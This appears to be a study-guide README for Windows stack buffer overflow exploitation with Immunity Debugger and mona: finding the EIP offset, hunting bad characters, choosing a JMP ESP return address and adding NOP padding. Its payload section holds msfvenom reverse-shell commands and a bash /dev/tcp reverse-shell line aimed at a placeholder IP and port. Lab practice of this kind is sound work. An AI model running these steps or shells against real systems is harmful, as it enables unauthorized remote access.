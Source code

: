 # methodology

## Getting OFFSET and EIP

1. Run Immunity Debugger as administrator
2. Configure Mona working folder using `!mona config -set workingfolder c:\kashz\%p`
3. Run `fuzzer.py` and note the crash byte number
4. Generate pattern 400 bytes more than crash using msf: `msf-pattern_create -l <number>`
5. set `PAYLOAD = <generated-alue>`
6. Run `exploit.py` and find offset
    1. Using mona: `!mona findmsp -distance <EIP>`. Should show in log windows
       as `EIP contains normal pattern : 0x6f43396e (offset 1978)`
    2. [OR] using msf: `msf-pattern_offset -l <number> -q <EIP>`
7. set `OFFSET = value`, set `PAYLOAD = ""`, set `RETURN = iiii` value of 0x69696969.
8. Run `exploit.py`
9. Program (should) crash with EIP = 69696969

## Finding BadChars using !mona

1. Generate byte-array using mona excluding the `\x00` null byte using `!mona bytearray -cpb "\x00"`
2. set `PAYLOAD = ( generated-byte-array )`
3. Run `exploit.py`
4. Note ESP and find barChar using `!mona compare -f C:\kashz\PROJECT_NAME\bytearray.bin -a <ESP_address>`
5. Remove 1st badChar from mona byte-array and generate new `!mona bytearray -cpb "\x00\xXX"`
6. Remove the badChar from `PAYLOAD` in `exploit.py`
7. Continue steps 3-6 until mona memory corruption log output says `STATUS = UNMODIFIED`

## Finding JMP using !mona

Note: **ALL badChars** are needed to find the JMP instruction.

1. Locate all JMP ESP using `!mona jmp -r esp -cpb "\x00\xXX"`
2. Select the one, for which ASLR and other security protections are FALSE.
3. Windows requires little endian style. So,
    1. if JMP instruction is  `0x12345678`.
    2. Take 2 letter from right-to-left and form return address
    3. return address is `\x78\x56\x34\x12`
    4. set `RETN = \x78\x56\x34\x12` in `exploit.py`

## Generate msfvenom Payload

```
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -b "badChars" -f c
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -b "badChars" -f c

# windows under linux (wine)
bash -i >& /dev/tcp/IP/PORT 0>&1
```

set `PAYLOAD = ( payload )`

## Prepend NOPs (\x90)

Usually an encoder will be used to generate the msfvenom payload which requires memory space to unpack.
set `PADDING = "\x90" * 16` in `exploit.py`

# Manual Process

## Finding BadChars manually

If by any chance, mona is adding new badChars after every removal of possible badChar, time to do it manually. Follow
the same process but instead of mona to check for badChar use the following method.

1. (top-menu option) View > CPU window > (top right register pane) right-click ESP > follow dump
2. (bottom left hexdump pane) same CPU windows - see all bad chars in line
3. read thoroughly and check if all byte-array-chars are in order.
    1. If any char is skipped or missing - it is a badChar
    2. If byte-array-chars are missing after a specific char - that is a badChar
    3. Remove one char at a time until you reach the last \0xff.

## Finding JMP manually

Note: **ALL badChars** are needed to find the JMP instruction.

1. view > CPU window
2. (top left pane) right click > Search for > All Commands in all modules > JMP ESP > search
3. Choose JMP Address with Green color and module name (as the file running)
4. Follow the above process to create little endian style return address